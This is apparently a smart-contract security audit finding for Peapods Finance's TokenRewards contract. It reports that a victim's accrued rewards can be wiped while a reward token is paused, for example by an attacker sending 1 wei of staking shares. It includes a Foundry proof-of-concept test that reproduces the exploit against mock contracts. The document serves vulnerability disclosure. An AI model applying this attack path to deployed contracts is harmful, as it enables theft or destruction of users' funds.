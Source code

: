 Spicy Lavender Capybara

High

# User rewards will be lost

### Summary

When a token in `REWARDS_WHITELISTER` is paused, increasing `TokenReward.share` will result in the loss of related token rewards. During share transfers between users, the excluded value updates, potentially causing the complete loss of rewards. This is critical, as an attacker can make a user lose their rewards by sending just 1 wei of share to the target address.
### Root Cause

In [TokenRewards.TokenRewards:L113-L135](https://github.com/sherlock-audit/2025-01-peapods-finance/blob/d28eb19f4b39d3db7997477460f9f9c76839cb0c/contracts/contracts/TokenRewards.sol#L113-L135)  there is incorrect logic 

### Internal Pre-conditions

RewardsWhitelist's owner needs to call function `setPaused()` will target token pause.

### External Pre-conditions

none

### Attack Path

An attacker can exploit `StakingPoolToken`'s `transfer` or `transferFrom` to forcibly execute `TokenRewards.setShares` on the target address, causing the user's `excluded` value to be updated. Additionally, when a user stakes in `StakingPoolToken`, `TokenRewards.setShares` is also called, updating the user's `excluded` and preventing reward claims.
### Impact

Users lose their all rewards
### PoC

Run command `forge test --match-test "testRewardPauseAttack -vvv" and the function testRewardPauseAttack input TokenRewards.t.sol
```solidity
    contract MockRewardsWhitelister {
        bool private _paused;
        mapping(address => bool) private _whitelist;
    
        function whitelist(address token) public view returns (bool) {
            return _whitelist[token];
        }
    
        function setWhitelist(address token, bool status) public {
            _whitelist[token] = status;
        }
    
        function paused(address token) public view returns (bool) {
            return !_whitelist[token];
        }
    
        function setPaused(bool paused_) public {
            _paused = paused_;
        }
    }
    ...
    function testRewardPauseAttack() public {
        rewardsWhitelister.setWhitelist(address(rewardsToken), true);
        // Add shares for two users
        vm.startPrank(address(trackingToken));
        tokenRewards.setShares(user1, 60e18, false); // 60%
        tokenRewards.setShares(user2, 40e18, false); // 40%
        vm.stopPrank();

        // Deposit rewards
        uint256 depositAmount = 100e18;
        tokenRewards.depositRewards(address(rewardsToken), depositAmount);
        rewardsWhitelister.setWhitelist(address(rewardsToken), false);
        vm.startPrank(address(trackingToken));
        tokenRewards.setShares(user2, 100e18, false);
        vm.stopPrank();
        rewardsWhitelister.setWhitelist(address(rewardsToken), true);
        // Claim rewards for both users
        tokenRewards.claimReward(user1);
        tokenRewards.claimReward(user2);



        // Check distribution accuracy
        uint256 user1Balance = rewardsToken.balanceOf(user1);
        uint256 user2Balance = rewardsToken.balanceOf(user2);

        console.log("user1Balance: %d", user1Balance);
       // user2Balance will be 0
        console.log("user2Balance: %d", user2Balance);
    }
```

### Mitigation

_No response_